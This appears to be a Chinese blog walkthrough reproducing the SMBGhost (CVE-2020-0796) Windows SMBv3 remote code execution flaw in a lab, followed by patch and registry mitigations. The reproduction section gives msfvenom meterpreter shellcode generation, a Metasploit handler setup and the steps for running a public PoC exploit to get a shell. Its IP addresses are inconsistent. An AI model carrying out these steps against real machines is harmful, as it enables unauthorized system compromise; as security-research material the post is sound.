



# CVE-2020-0796 漏洞复现（RCE） - Lushun - 博客园

> 原文：[`www.cnblogs.com/Xy--1/p/13044128.html`](https://www.cnblogs.com/Xy--1/p/13044128.html)

# 0x01 漏洞简介

2020 年 3 月 10 日，微软在其官方 SRC 发布了 CVE-2020-0796 的安全公告（ADV200005，MicrosoftGuidance for Disabling SMBv3 Compression）,公告表示在 Windows SMBv3 版本的客户端和服务端存在远程代码执行漏洞。同时指出该漏洞存在于 MicroSoft Server Message Block 3.1.1 协议处理特定请求包的功能中，攻击者利用该漏洞可在目标 SMB Server 或者 Client 中执行任意代码。
该漏洞的后果十分接近永恒之蓝系列，都利用 Windows SMB 漏洞远程攻击获取系统最高权限，WannaCry 勒索蠕虫就是利用永恒之蓝系列漏洞攻击工具制造的大灾难。除了直接攻击 SMB 服务端造成 RCE 外，该漏洞得亮点在于对 SMB 客户端的攻击，攻击者可以构造特定的网页，压缩包，共享目录，OFFICE 文档等多种方式触发漏洞进行攻击。

# 0x02 影响范围

漏洞不影响 win7，漏洞影响 Windows 10 1903 之后的各个 32 位、64 位版 Windows，包括家用版、专业版、企业版、教育版。
Windows 10 Version 1903 for 32-bit Systems
Windows 10 Version 1903 for x64-based Systems
Windows 10 Version 1903 for ARM64-based Systems
Windows Server, Version 1903 (Server Core installation)
Windows 10 Version 1909 for 32-bit Systems
Windows 10 Version 1909 for x64-based Systems
Windows 10 Version 1909 for ARM64-based Systems
Windows Server, Version 1909 (Server Core installation)

## SMB 介绍

Microsoft 服务器消息块（SMB）协议是 Microsoft Windows 中使用的一项 Microsoft 网络文件共享协议。在大部分 windows 系统中都是默认开启的，用于在计算机间共享文件、打印机等。
Windows 10 和 Windows Server 2016 引入了 SMB 3.1.1 。本次漏洞源于 SMBv3 没有正确处理压缩的数据包，在解压数据包的时候使用客户端传过来的长度进行解压时，并没有检查长度是否合法，最终导致整数溢出。
利用该漏洞，黑客可直接远程攻击 SMB 服务端远程执行任意恶意代码，亦可通过构建恶意 SMB 服务端诱导客户端连接从而大规模攻击客户端。

# 0x03 复现步骤

## 环境要求

1.win10 虚拟机（1903 或者 1909 版本）
ip：192.168.5.131
这里给一个 win10 1903 版本的镜像

```
ed2k://|file|cn_windows_10_business_editions_version_1903_updated_sept_2019_x64_dvd_2f5281e1.iso|5231140864|B1D5C4C401036B0B1EBA64476A95F338|/ 
```

2.关闭 defender 和防火墙
3.Kali Linux（确保可以和 win10 虚拟机 ping 通）
ip：192.168.5.128

## 利用步骤

(1)首先检测目标是否存在漏洞，下载检测 POC
[`github.com/ollypwn/SMBGhost`](https://github.com/ollypwn/SMBGhost)
控制台输入 python3 scanner.py <目标 ip>来进行检测

发现存在漏洞
(2)然后下载利用 poc
git clone [`github.com/chompie1337/SMBGhost_RCE_PoC.git`](https://github.com/chompie1337/SMBGhost_RCE_PoC.git)
然后切换到对应目录下找到 exploit.py

再找到这一段
[`cdnimg.copyfuture.com/imagesLocal/202006/04/20200604160938491duelc1xor3kacl3_0.png`](https://cdnimg.copyfuture.com/imagesLocal/202006/04/20200604160938491duelc1xor3kacl3_0.png)
(3)生成 python 的反弹 shellcode

```
msfvenom -p windows/x64/meterpreter/bind_tcp lport=1234 -f py -o exp.py 
```



然后将 shellcode 里的 buf 全部改成 USER_PAYLOAD 再将修改好的 shellcode 粘贴到 exploit.py 上我们刚才找到的位置，以便将获得的 shell 反弹到我们的 kail 上

(4)启动 msfconsole，设置监听端口
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set rhost 192.168.5.145
rhost => 192.168.5.145
msf5 exploit(multi/handler) > set lport 1234
lport => 1234
msf5 exploit(multi/handler) > run
开启监听端口后，再去运行 exploit.py
python3 exploit.py -ip 192.168.5.145

成功反弹 shell，查看当前用户权限

**注意：虽然这次成功了，但是这个 rce 的 poc 还不是很稳定，经常容易打蓝屏和死机。**

## 本地提权

利用这个漏洞的还可以本地提权，就不赘述了。
[`www.fr1sh.com/?post=26`](http://www.fr1sh.com/?post=26)

# 0x04 漏洞修复

1. 更新，完成补丁的安装。
操作步骤：设置­>更新和安全­>Windows 更新，点击“检查更新”。
2.微软给出了临时的应对办法：
运行 regedit.exe，打开注册表编辑器，在
HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters 建立一个名为
DisableCompression 的 DWORD，值为 1，禁止 SMB 的压缩功能。
3.对 SMB 通信 445 端口进行封禁。
4.补丁链接
[`catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762`](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762)